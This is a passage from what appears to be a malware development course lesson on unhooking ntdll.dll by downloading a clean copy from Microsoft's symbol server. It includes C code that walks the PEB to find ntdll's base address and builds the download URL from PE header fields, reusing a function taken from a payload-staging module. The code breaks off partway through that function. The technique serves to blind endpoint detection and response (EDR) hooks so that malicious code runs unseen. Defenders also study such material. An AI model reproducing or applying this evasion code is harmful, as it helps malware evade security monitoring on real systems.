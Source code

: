 ![image](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntdll-unhooking-server-518748318-85fde875-9b04-4087-99d7-99135d1fe75d.png)

Therefore, the first part of the URL, the timestamp, is derived from the `IMAGE_FILE_HEADER.TimeDateStamp` element of the DLL. The second part, VirtualSize, is derived from the `IMAGE_OPTIONAL_HEADER.SizeOfImage` element of the DLL.

Winbindex's download links are visualized in the image below.

![image](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntdll-unhooking-server-618750624-b5511b03-9f66-42c6-ae0c-8262c7f9c7fb.png)

### ReadNtdllFromServer Function

The next step is to build a function that creates a suitable URL for the local machine. This is what the following `ReadNtdllFromServer` function does.

The `ReadNtdllFromServer` function calls `FetchLocalNtdllBaseAddress` to obtain the base address of the local `ntdll.dll` image to build the download URL. This is done using `wsprintfW` which combines the string "https://msdl.microsoft.com/download/symbols/ntdll.dll/", which is the fixed part of the download link with `pImgNtHdrs->FileHeader.TimeDateStamp` and `pImgNtHdrs->OptionalHeader.SizeOfImage` values.

Once that's done, the function calls `GetPayloadFromUrl` which was introduced in the _Payload Staging - Web Server_ module. This function is responsible for downloading the payload file from a web server, but in this case, it's being utilized to download `ntdll.dll` from the generated link.

```c
#define FIXED_URL	L"https://msdl.microsoft.com/download/symbols/ntdll.dll/"

PVOID FetchLocalNtdllBaseAddress() {

#ifdef _WIN64
	PPEB pPeb = (PPEB)__readgsqword(0x60);
#elif _WIN32
	PPEB pPeb = (PPEB)__readfsdword(0x30);
#endif // _WIN64

	// Reaching to the 'ntdll.dll' module directly (we know its the 2nd image after 'ServerUnhooking.exe')
	// 0x10 is = sizeof(LIST_ENTRY)
	PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
	
	return pLdr->DllBase;
}


BOOL ReadNtdllFromServer(OUT PVOID* ppNtdllBuf) {

	PBYTE      pNtdllModule             = (PBYTE)FetchLocalNtdllBaseAddress();
	PVOID      pNtdllBuffer             = NULL;
	SIZE_T     sNtdllSize               = NULL;
	WCHAR      szFullUrl [MAX_PATH]     = { 0 };

	// getting the dos header of the local ntdll image
	PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)pNtdllModule;
	if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return NULL;

	// getting the nt headers of the local ntdll image
	PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(pNtdllModule + pImgDosHdr->e_lfanew);
	if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
		return NULL;

	// constructing the download url 
```